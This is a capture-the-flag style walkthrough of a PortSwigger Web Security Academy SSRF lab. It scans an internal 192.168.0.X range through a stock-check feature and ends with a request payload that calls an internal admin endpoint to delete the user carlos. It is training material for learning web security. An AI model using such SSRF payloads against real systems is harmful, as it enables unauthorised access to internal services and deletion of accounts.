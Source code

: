 
# Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

---------------------------------------------

Generated link: https://0aac00f403f0604981937fdd00f60012.web-security-academy.net/

POST request to check stock:



![img](images/Basic%20SSRF%20against%20another%20back-end%20system/1.png)


Intruder:



![img](images/Basic%20SSRF%20against%20another%20back-end%20system/2.png)


.169 contains admin panel:



![img](images/Basic%20SSRF%20against%20another%20back-end%20system/3.png)


It seems it is possible to delete users with a GET request from the response:



![img](images/Basic%20SSRF%20against%20another%20back-end%20system/4.png)


We will add this to the request:



![img](images/Basic%20SSRF%20against%20another%20back-end%20system/5.png)


```
POST /product/stock HTTP/2
...
stockApi=http%3A%2F%2F192.168.0.169%3A8080%2Fadmin/delete?username=carlos
```


